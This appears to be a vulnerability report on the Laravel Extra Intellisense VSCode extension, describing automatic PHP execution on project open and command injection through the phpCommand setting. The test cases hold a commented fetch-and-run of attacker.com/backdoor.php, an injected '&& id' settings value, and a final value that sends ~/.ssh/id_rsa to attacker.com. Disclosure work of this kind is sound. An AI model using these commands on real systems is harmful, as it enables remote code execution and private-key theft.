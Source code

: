 # Vulnerabilities in Laravel Extra Intellisense VSCode Extension

## 1. Arbitrary PHP Code Execution via Auto-loading of Laravel Projects

### Description
The VSCode extension automatically executes PHP code to retrieve Laravel project metadata (routes, models, views, etc.) when a project is opened. If a user opens a malicious Laravel project directory, PHP code within that project will automatically execute without any prompt or warning. The extension runs this code both when the project is first opened and periodically thereafter.

### Impact
High severity. An attacker can craft a malicious Laravel project that, when opened by a victim with this extension installed, will execute arbitrary PHP code on the victim's system with the permissions of the VSCode process. This could lead to data theft, system compromise, or further lateral movement.

### Vulnerability Rank
Critical

### Currently Implemented Mitigations
- The README contains a security note warning users about the extension automatically running the Laravel application
- The extension logs commands being executed to the output channel

### Missing Mitigations
- No confirmation prompt before executing PHP code from newly opened projects
- No sandboxing of code execution
- No code signing or verification of Laravel project files
- No option to disable automatic execution for untrusted projects

### Preconditions
- The victim must have the Laravel Extra Intellisense extension installed in VSCode
- The victim must open a directory containing a malicious Laravel project in VSCode

### Source Code Analysis
The vulnerability stems from how the extension automatically executes PHP code via the `runLaravel` method in `helpers.ts`:

1. The extension periodically calls provider methods like `loadRoutes()`, `loadViews()`, etc.
2. These methods use `Helpers.runLaravel()` to execute PHP code
3. In `helpers.ts`, the `runLaravel` method constructs a PHP script that:
   - Loads the Laravel application (`require_once 'bootstrap/app.php'`)
   - Executes user-provided code within the Laravel context
   - Returns results to the extension

```typescript
static runLaravel(code: string, description: string|null = null) : Promise<string> {
  // ...
  var command =
    "define('LARAVEL_START', microtime(true));" +
    "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
    "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" +
    // ... executes user code from the project

  return new Promise(function (resolve, error) {
    self.runPhp(command, description)
      .then(function (result: string) {
        // ... process result
      });
  });
}
```

The execution path begins in the extension's `activate` function, which initializes all providers. These providers immediately begin collecting metadata by executing PHP code from the project:

```typescript
export function activate(context: vscode.ExtensionContext) {
  // ...
  context.subscriptions.push(vscode.languages.registerCompletionItemProvider(LANGUAGES, new RouteProvider, ...));
  context.subscriptions.push(vscode.languages.registerCompletionItemProvider(LANGUAGES, new ViewProvider, ...));
  // ... other providers
}
```

### Security Test Case
1. Create a malicious Laravel project with the following code in a service provider or route file:
   ```php
   // In routes/web.php or a service provider
   file_put_contents('/tmp/vscode_laravel_extension_hacked.txt', 'System compromised via Laravel Extra Intellisense');
   // For more severe demonstration (DON'T TEST IN PRODUCTION):
   // shell_exec('curl https://attacker.com/backdoor.php | php');
   ```

2. Bundle this as a Laravel project with standard directory structure including:
   - app/ directory
   - vendor/autoload.php
   - bootstrap/app.php
   - routes/ directory

3. Send this project to a victim (e.g., via Git, ZIP file, etc.)

4. When the victim opens the project in VSCode with Laravel Extra Intellisense installed, the malicious code will execute automatically without any prompt.

5. Verify the attack by checking if `/tmp/vscode_laravel_extension_hacked.txt` was created.

## 2. Command Injection via phpCommand Configuration

### Description
The extension uses a user-configurable `phpCommand` setting to execute PHP code. This command is passed directly to Node.js's `child_process.exec()` with insufficient sanitization. While the extension attempts to escape quotation marks and some special characters, it doesn't fully sanitize the command or the code being executed, which could allow command injection.

### Impact
Critical severity. An attacker can craft malicious PHP code or manipulate the phpCommand configuration to execute arbitrary shell commands on the victim's system.

### Vulnerability Rank
High

### Currently Implemented Mitigations
- Basic escaping of double quotes and some special characters
- Additional escaping for Unix-like platforms

### Missing Mitigations
- No proper command-line argument sanitization
- Using string template replacement instead of proper argument passing
- No validation of the phpCommand configuration value
- No restrictions on the commands that can be executed

### Preconditions
- A malicious user must have access to modify the VSCode configuration or trick a user into applying a malicious configuration
- Alternatively, a malicious Laravel project could contain code that exploits edge cases in the escaping logic

### Source Code Analysis
The vulnerability exists in the `runPhp` method in `helpers.ts`:

```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
  code = code.replace(/\"/g, "\\\"");
  if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
    code = code.replace(/\$/g, "\\$");
    code = code.replace(/\\\\'/g, '\\\\\\\\\'');
    code = code.replace(/\\\\"/g, '\\\\\\\\\"');
  }

  let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
  let command = commandTemplate.replace("{code}", code);

  // ... execute the command using cp.exec(command, ...)
}
```

The issue is that `cp.exec()` runs the command through a shell, which creates opportunity for command injection if the escaping is inadequate. The current escaping logic:
1. Replaces double quotes with escaped double quotes
2. On Unix-like platforms, escapes dollar signs and adds extra escaping for quotes

However, there are still opportunities for injection:
- The `{code}` template replacement is done using string replacement, not proper parameter passing
- If the user sets a malicious `phpCommand` template, additional commands could be injected
- The escaping logic doesn't handle all special shell characters

### Security Test Case
1. Create a custom VSCode setting in your settings.json file:
   ```json
   "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" && echo 'INJECTED COMMAND' && id"
   ```

2. Open a Laravel project with Laravel Extra Intellisense extension

3. The extension will run PHP code to collect metadata, and the injected command (`echo 'INJECTED COMMAND' && id`) will also execute

4. Check the extension output channel for evidence of the injected command execution

5. For a more sophisticated attack, a command that exfiltrates data could be used:
   ```json
   "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" && curl -d \"data=$(cat ~/.ssh/id_rsa)\" https://attacker.com/collect"
